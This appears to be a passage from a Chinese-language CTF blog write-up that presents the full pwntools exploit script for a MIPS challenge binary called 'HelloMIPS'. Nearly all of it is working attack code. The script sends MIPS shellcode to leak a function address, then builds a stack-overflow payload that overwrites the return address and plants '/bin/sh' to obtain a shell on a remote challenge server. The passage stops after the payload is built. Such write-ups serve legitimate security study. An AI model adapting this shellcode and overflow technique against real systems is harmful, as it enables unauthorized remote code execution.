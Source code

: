 ![image-20201019144642666](/images/blog/66/image-20201019144642666.png)



完整代码如下：

```python
from pwn import *
import sys
context.log_level = 'debug'
context.arch = 'mips'
Debug = True

elf = ELF('./HelloMIPS', checksec=False)


def get_sh(other_libc=null):
    # return process(["qemu-mipsel", "-L", "./", "./HelloMIPS"])
    return remote('10.104.255.211', 7777)
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec=False)
        return remote('10.104.255.211', 7777)
    elif Debug:
        sh = process(["qemu-mipsel", "-g", "2333", "-L", "./", "./HelloMIPS"])
        log.info('Please use GDB remote!(Enter to continue)')
        raw_input()
        return sh
    else:
        return process(["qemu-mipsel", "-L", "./", "./HelloMIPS"])


conn = get_sh()
conn.recvline()

payload = b''
payload += asm('addi $t9, $sp, -0x108')
payload += asm('nop')
payload += asm('jalr $t9')
payload += b'\0' * (0xF-len(payload))


conn.send(payload)
conn.recvline()

bb = conn.recvline()

hex_magic = bb[15:-1].decode('utf-8')
addr_magic = int(hex_magic, 16)
print('hex_magic: {}'.format(hex_magic))

addr_NAME = 0x440E20
payload = b''
payload += asm('move $a0, $sp')
payload += asm('li $t9, ' + hex(addr_magic))
payload += asm('nop')
payload += asm('jalr $t9')
payload += asm('nop')

payload += b'a' * (0x100 - len(payload))
payload += p32(0xdeadbeef)
payload += p32(addr_NAME)
# 重要參數放到sp后面防止被冲掉！！！！！
payload += b'/bin/sh\0'
```